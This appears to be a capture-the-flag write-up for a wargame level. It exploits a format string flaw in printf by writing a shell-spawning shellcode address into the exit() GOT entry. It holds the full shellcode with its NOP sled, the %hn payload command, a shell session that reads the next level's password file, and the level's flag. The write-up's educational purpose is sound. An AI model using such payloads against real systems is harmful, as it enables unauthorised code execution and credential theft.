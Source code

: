 

# Overwrite .GOT table again

On this level we are provided with a program which takes a string as input via the **`gets()`** function, in the case of uppercase alphabetic characters these are transformed into lowercase letters before being printed by **`printf()`**.

```
08048444 <main>:
...
804846e:	8d 44 24 28          	lea    eax,[esp+0x28]
8048472:	89 04 24             	mov    DWORD PTR [esp],eax
8048475:	e8 d6 fe ff ff       	call   8048350 <fgets@plt>
804847a:	c7 84 24 8c 00 00 00 	mov    DWORD PTR [esp+0x8c],0x0
...
80484f3:	f2 ae                	repnz  scas al,BYTE PTR es:[edi]
80484f5:	89 c8                	mov    eax,ecx
80484f7:	f7 d0                	not    eax
80484f9:	83 e8 01             	sub    eax,0x1
80484fc:	39 c3                	cmp    ebx,eax
80484fe:	72 87                	jb     8048487 <main+0x43>
8048500:	8d 44 24 28          	lea    eax,[esp+0x28]
8048504:	89 04 24             	mov    DWORD PTR [esp],eax
8048507:	e8 34 fe ff ff       	call   8048340 <printf@plt>
```

Since no sanitize takes place on our input and it is handled by printf, we can use a **format string attack**.

We notice at the same time that the program will end with an **`exit()`**, the address of the latter is not yet resolved at this stage of the program, so let’s replace the field in the **got.plt** table  :

```
08048444 <main>:
...
8048513:	e8 58 fe ff ff       	call   8048370 <exit@plt>
...
08048370 <exit@plt>:
8048370:	ff 25 e0 97 04 08    	jmp    DWORD PTR ds:0x80497e0
...
0x80497e0 <exit@got.plt>:       0x08048376
```

Let's build our attack.

First we will inject a spawn shell code into an environment variable ( *using a **NOP slide** with shellcode can help to make exploits more reliable, as it provides a "buffer" of NOP instructions that can help to align the program's execution flow with the shellcode. This can help to prevent the exploit from failing due to small variations in the branch target address* ) :



    export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')


**got.plt** table addr: **`0x80497e0`**  

**env** var addr: **`0xffffd7d9`** / **`4294957017`**  
  
We notice that the address of the **env** var is a very large number, we will have to divide the overwrite operation into two parts.

```
1) d7d9 -> 55257 -> pad (55257 - 8) -> 55249
2) ffff -> 65535 -> pad (65535 - 55257) -> 10278

1st part addr: 0x80497e0
2th part addr: 0x80497e2

2th   1th 
[__|__|__|__] -> ??? [ff|ff|d7|d9]
```

```
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55249c%10$hn" + "%10278c%11$hn"' > /tmp/boom
cat /tmp/boom - | ./level05
```

```
whoami
level06
cat /home/users/level06/.pass            
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

> flag: h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
